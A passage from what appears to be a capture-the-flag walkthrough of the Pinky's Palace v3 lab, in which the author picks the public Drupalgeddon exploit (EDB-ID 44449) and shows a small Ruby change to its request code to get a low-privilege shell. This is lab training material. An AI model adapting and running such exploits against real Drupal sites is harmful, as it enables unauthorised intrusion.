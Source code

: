 ![cfd11c93.png](/assets/images/posts/pinkys-palace-v3-walkthrough/cfd11c93.png)

I know the right exploit for this. Check out EDB-ID [44449](https://www.exploit-db.com/exploits/44449/). If everything goes well, I should have a low-privilege shell. Let's do this.

My first attempt didn't go well. The script needed a slight modification.

<div class="filename"><span>drupalggedon.rb</span></div>

```rb
...
# Add this function
def http_get(url, payload="")
  uri = URI(url)
  request = Net::HTTP::Get.new(uri.request_uri)
  request.initialize_http_header({"User-Agent" => $useragent})
  request.body = payload
  return $http.request(request)
end
...
# Change to http_get for the checks
url.each do|uri|
  # Check response
  response = http_get(uri)
```

Let's run it.
